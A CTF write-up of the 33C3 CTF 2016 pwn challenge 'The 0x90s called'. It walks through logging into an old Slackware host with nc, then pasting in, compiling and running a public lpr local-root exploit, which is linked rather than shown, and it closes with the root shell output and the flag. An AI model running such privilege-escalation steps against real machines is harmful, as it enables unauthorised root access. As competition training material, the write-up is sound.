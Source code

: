 ```yaml
---
type: ctf
title : 33C3 CTF 2016 -- The 0x90s called
tags: [33C3 CTF, The 0x90s called]
date : 2016-12-29
author: Eno Leriand
featuredImage: https://www.megabeets.net/uploads/megabeets_300x245.png
---
```


**Category:** pwn
**Points:** 150

First we'll have to go to a web page to start our challenge session. The page will show us the port (same IP address with the web page) and the ID/password.

Once we connected to the remote host and login the machine, we'll found that we're inside a [Slackware Linux](http://www.slackware.com/):
```
$ nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ uname -a
Linux slack 0.99.12 #6 Sun Aug 8 16:02:35 CDT 1993 i586
```

Later we'll found that there's a `flag.txt` inside the root directory:
```
slack:/$ ls -al /flag.txt
-r--------   1 root     root           36 Dec 27  1916 /flag.txt
```

Looks like we'll need a local root exploit to capture the flag. 

By googling **"slackware linux 0.99 local root exploit"**, we found a working [PoC](https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c). Now all we need to do is copy the PoC to the remote host, then compile & execute the exploit so we can escalate to root.

Although it looks simple, it still took me a while to complete the challenge, since there's no tool that can help us download the PoC to the host -- **no `wget`, no `curl`, not even `nc`!!** And the `vi` editor is just terrible!! Finally I decided to use `cat <<'EOF' >> test.c` + copy & paste to write the exploit into `test.c`.

After we compile & execute the local root exploit, we're able to escalate to root and get the flag:
```
slack:~$ gcc -o test test.c
slack:~$ ./test
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```

flag: `33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3`
